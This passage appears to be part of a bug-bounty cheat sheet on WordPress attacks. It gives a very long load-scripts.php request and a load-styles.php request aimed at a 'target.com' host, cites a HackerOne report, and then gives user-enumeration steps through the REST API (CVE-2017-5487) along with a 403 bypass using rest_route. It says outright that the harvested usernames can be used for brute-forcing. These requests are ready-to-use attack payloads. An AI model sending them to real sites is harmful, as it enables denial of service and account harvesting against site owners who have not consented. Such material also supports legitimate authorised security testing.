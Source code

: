 ```
http://example.com/wp-admin/load-scripts.php?load=react,react-dom,moment,lodash,wp-polyfill-fetch,wp-polyfill-formdata,wp-polyfill-node-contains,wp-polyfill-url,wp-polyfill-dom-rect,wp-polyfill-element-closest,wp-polyfill,wp-block-library,wp-edit-post,wp-i18n,wp-hooks,wp-api-fetch,wp-data,wp-date,editor,colorpicker,media,wplink,link,utils,common,wp-sanitize,sack,quicktags,clipboard,wp-ajax-response,wp-api-request,wp-pointer,autosave,heartbeat,wp-auth-check,wp-lists,cropper,jquery,jquery-core,jquery-migrate,jquery-ui-core,jquery-effects-core,jquery-effects-blind,jquery-effects-bounce,jquery-effects-clip,jquery-effects-drop,jquery-effects-explode,jquery-effects-fade,jquery-effects-fold,jquery-effects-highlight,jquery-effects-puff,jquery-effects-pulsate,jquery-effects-scale,jquery-effects-shake,jquery-effects-size,jquery-effects-slide,jquery-effects-transfer,jquery-ui-accordion,jquery-ui-autocomplete,jquery-ui-button,jquery-ui-datepicker,jquery-ui-dialog,jquery-ui-draggable,jquery-ui-droppable,jquery-ui-menu,jquery-ui-mouse,jquery-ui-position,jquery-ui-progressbar,jquery-ui-resizable,jquery-ui-selectable,jquery-ui-selectmenu,jquery-ui-slider,jquery-ui-sortable,jquery-ui-spinner,jquery-ui-tabs,jquery-ui-tooltip,jquery-ui-widget,jquery-form,jquery-color,schedule,jquery-query,jquery-serialize-object,jquery-hotkeys,jquery-table-hotkeys,jquery-touch-punch,suggest,imagesloaded,masonry,jquery-masonry,thickbox,jcrop,swfobject,moxiejs,plupload,plupload-handlers,wp-plupload,swfupload,swfupload-all,swfupload-handlers,comment-reply,json2,underscore,backbone,wp-util,wp-backbone,revisions,imgareaselect,mediaelement,mediaelement-core,mediaelement-migrate,mediaelement-vimeo,wp-mediaelement,wp-codemirror,csslint,esprima,jshint,jsonlint,htmlhint,htmlhint-kses,code-editor,wp-theme-plugin-editor,wp-playlist,zxcvbn-async,password-strength-meter,user-profile,language-chooser,user-suggest,admin-bar,wplink,wpdialogs,word-count,media-upload,hoverIntent,hoverintent-js,customize-base,customize-loader,customize-preview,customize-models,customize-views,customize-controls,customize-selective-refresh,customize-widgets,customize-preview-widgets,customize-nav-menus,customize-preview-nav-menus,wp-custom-header,accordion,shortcode,media-models,wp-embed,media-views,media-editor,media-audiovideo,mce-view,wp-api,admin-tags,admin-comments,xfn,postbox,tags-box,tags-suggest,post,editor-expand,link,comment,admin-gallery,admin-widgets,media-widgets,media-audio-widget,media-image-widget,media-gallery-widget,media-video-widget,text-widgets,custom-html-widgets,theme,inline-edit-post,inline-edit-tax,plugin-install,site-health,privacy-tools,updates,farbtastic,iris,wp-color-picker,dashboard,list-revisions,media-grid,media,image-edit,set-post-thumbnail,nav-menu,custom-header,custom-background,media-gallery,svg-painter

Also You Can Use load-styles.php:
http://target.com/wp-admin/load-styles.php?&load=common,forms,admin-menu,dashboard,list-tables,edit,revisions,media,themes,about,nav-menus,widgets,site-icon,l10n,install,wp-color-picker,customize-controls,customize-widgets,customize-nav-menus,customize-preview,ie,login,site-health,buttons,admin-bar,wp-auth-check,editor-buttons,media-views,wp-pointer,wp-jquery-ui-dialog,wp-block-library-theme,wp-edit-blocks,wp-block-editor,wp-block-library,wp-components,wp-edit-post,wp-editor,wp-format-library,wp-list-reusable-blocks,wp-nux,deprecated-media,farbtastic
```

### Reference
[hackerone](https://hackerone.com/reports/694467)

# WP User Enumeration
This issue will only acceptable when target website is hiding their current users or they are not publically available. So attacker can use those user data for bruteforcing and other staff

### Methods
- CVE-2017-5487 
    - visit site.com/wp-json/wp/v2/users/
    - You will see json data with user info in response
    - if you got 403 error you can use this bypass </br>
    ![wpb](https://user-images.githubusercontent.com/63053441/137262896-0d59a62d-c386-4009-af84-4266b72428b6.png)
    - try `http://target.com/?rest_route=/wp/v2/users`
